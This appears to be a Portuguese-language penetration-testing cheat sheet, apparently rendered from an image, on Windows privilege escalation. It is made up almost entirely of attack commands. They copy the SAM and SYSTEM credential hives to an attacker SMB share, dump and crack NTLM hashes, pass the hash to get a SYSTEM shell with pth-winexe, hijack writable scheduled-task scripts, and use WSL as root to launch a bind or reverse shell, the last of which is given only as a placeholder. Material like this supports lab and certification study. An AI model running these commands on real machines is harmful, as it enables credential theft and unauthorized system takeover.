 ```
# As creds ficam em C:\Windows\System32\config ou C:\Windows\System32\config\RegBack

copy C:\Windows\Repair\SAM \\10.10.10.10\kali\

copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\

git clone https://github.com/Tib3rius/creddump7

pip3 install pycrypto

python3 creddump7/pwdump.py SYSTEM SAM

# Ou samdump2 SYSTEM SAM 

hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt

# Da pra usar pth-winexe pra usar o passthehash
pth-winexe -U 'admin%hash' //<ip> cmd.exe --system
```

___

# Scheduled Tasks

- Não tem uma forma fácil de enumerar essas tasks, mas da pra rodar alguns comandos

```
schtasks /query /fo LIST /v

Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

accesschk64.exe -quv <script>
# Para veras perms que temos

# Depois é só escrever no script que será executado e esperar a execução
```


___

# WSL

- Para achar o wsl: `where /R c:\windows bash.exe`
- Ou `where /R c:\windows wsl.exe`

```
wsl whoami
./ubuntun1604.exe config --default-user root

wsl whoami

wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'

```
